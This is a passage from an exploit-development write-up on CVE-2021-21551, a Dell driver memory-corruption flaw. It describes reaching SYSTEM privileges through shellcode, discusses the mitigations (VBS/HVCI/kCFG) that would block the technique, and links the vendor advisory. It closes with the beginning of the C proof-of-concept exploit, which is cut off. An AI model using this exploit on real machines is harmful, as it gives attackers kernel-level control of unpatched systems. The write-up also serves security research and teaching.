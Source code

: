 <img src="{{ site.url }}{{ site.baseurl }}/images/dell80.png" alt="">

Then, after stepping through everything, we can see now that control-flow transfer has been handed off to our shellcode.

<img src="{{ site.url }}{{ site.baseurl }}/images/dell81.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/dell82.png" alt="">

From here, we can see we have successfully obtained `NT AUTHORITY\SYSTEM` privileges!

<img src="{{ site.url }}{{ site.baseurl }}/images/dellgif.gif" alt="">

"When Napoleon lay at Boulogne for a year with his flat-bottom boats and his Grand Army, he was told by someone 'There are bitter weeds in VBS/HVCI/kCFG'"
---

Although this exploit was arduous to create, we can clearly see why data-only attacks, such as the `_SEP_TOKEN_PRIVILEGES` method outlined by Kasif are optimal. They bypass pretty much any memory corruption related mitigation.

Note that VBS/HVCI actually creates an additional security boundary for us. Page table entries, when VBS is enabled, are actually managed by a higher security boundary, virtual trust level 1 - which is the secure kernel. This means it is not possible to perform PTE manipulation as we did. Additionally, even if this were possible, HVCI is essentially Arbitrary Code Guard (ACG) in the kernel - meaning that it also isn't possible to manipulate the permissions of memory as we did. These two mitigations would also allow kCFG to be fully implemented, meaning our control-flow transfer would have also failed.

The advisory and patch for this vulnerability can be [found here](https://www.dell.com/support/kbdoc/en-us/000186019/dsa-2021-088-dell-client-platform-security-update-for-dell-driver-insufficient-access-control-vulnerability)! Please patch your systems or simply remove the driver.

Thank you again to Kasif for this original research! This was certainly a fun exercise :-). Until next time - peace, love, and positivity :-).

Here is the final POC, which can be found on my [GitHub](https://github.com/connormcgarr/Kernel-Exploits/tree/master/CVE-2021-21551):

```c
// CVE-2021-21551: Dell 'dbutil_2_3.sys' Memory Corruption
// Original research: https://labs.sentinelone.com/cve-2021-21551-hundreds-of-millions-of-dell-computers-at-risk-due-to-multiple-bios-driver-privilege-escalation-flaws/
// Author: Connor McGarr (@33y0re)

#include <stdio.h>
#include <Windows.h>
#include <Psapi.h>

// Vulnerable IOCTL
#define IOCTL_WRITE_CODE 0x9B0C1EC8
#define IOCTL_READ_CODE 0x9B0C1EC4

// Prepping call to nt!NtQueryIntervalProfile
typedef NTSTATUS(WINAPI* NtQueryIntervalProfile_t)(IN ULONG ProfileSource, OUT PULONG Interval);

// Obtain the kernel base and driver base
unsigned long long kernelBase(char name[])
{
  // Defining EnumDeviceDrivers() and GetDeviceDriverBaseNameA() parameters
  LPVOID lpImageBase[1024];
  DWORD lpcbNeeded;
  int drivers;
  char lpFileName[1024];
  unsigned long long imageBase;

  BOOL baseofDrivers = EnumDeviceDrivers(
```